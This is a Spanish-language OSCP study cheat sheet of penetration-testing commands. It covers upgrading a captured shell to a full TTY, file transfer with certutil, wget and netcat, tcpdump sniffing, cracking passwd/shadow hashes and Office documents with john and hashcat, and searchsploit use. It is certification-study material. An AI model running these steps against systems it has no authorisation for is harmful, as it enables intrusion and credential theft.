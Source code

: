  

### Tratamiento de la TTY[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#tratamiento-de-la-tty)

```python

script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a

 
### Lanzar una TTY Shell con Python[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#lanzar-una-tty-shell-con-python)

python -c 'import pty; pty.spawn("/bin/sh")'
```
 

### Descompresión
```python
#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip
```

 

### Comparación de archivos
```python
diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt
```

### Transferencia de archivos
```python 
#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt

​

#FTP

#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>

​

#Netcat

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

 

### Sniffing[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#sniffing)

tcpdump -i tun0 icmp -n
 

### Cracking[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#cracking)

#Básico

john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt

​

#Cracking de contraseñas con passwd y shadow

unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

​

#Cracking de documentos encriptados de Office

office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>


### Búsqueda de exploits[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#busqueda-de-exploits)
```
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```